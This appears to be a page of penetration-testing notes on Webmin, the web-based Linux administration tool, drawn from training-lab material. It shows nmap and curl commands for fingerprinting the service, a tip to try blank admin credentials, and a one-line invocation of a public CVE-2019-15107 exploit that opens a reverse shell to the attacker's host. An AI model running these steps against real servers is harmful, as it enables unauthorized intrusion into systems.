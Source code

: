 # webmin

<div class="row row-cols-lg-2"><div>

[Webmin](https://webmin.com/) (3.3k ⭐) is an open-source web-based interface for system administration for Linux systems. From the interface, we can:

* Manage packages
* Manage users
* Manage system configurations
* Manage network configurations
* ...

**Port** 🐊: 10000 (TCP)
</div><div>

To edit the DNS configuration, navigate to <kbd>Networking > Network Configuration > Hostname and DNS Client</kbd>.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

[![source](../../../../../cybersecurity/_badges/thm-p/source.svg)](https://tryhackme.com/room/source)

* You can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md)

```shell!
$ nmap -p 10000 IP
10000/tcp open  snet-sensor-mgmt
$ nmap -p 10000 -sV IP
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
```

* You can use cURL too if you want to find the version

```shell!
$ curl -s -I -k https://IP:10000 | grep Server
Server: MiniServ/1.890
```
</div><div>

#### FootHold

[![modern_web_exploitation_techniques](../../../../../cybersecurity/_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

It might be worth testing `admin:<blank>` credentials.

<br>

#### Well-Known CVEs

[![source](../../../../../cybersecurity/_badges/thm-p/source.svg)](https://tryhackme.com/room/source)

* You may be able to exploit [CVE-2019-15107](https://github.com/squid22/Webmin_CVE-2019-15107/blob/main/webmin_exploit.py)

```shell!
$ [...] # start a reverse shell listener
$ python3 webmin_exploit.py target_ip target_port host_ip host_port
```
</div></div>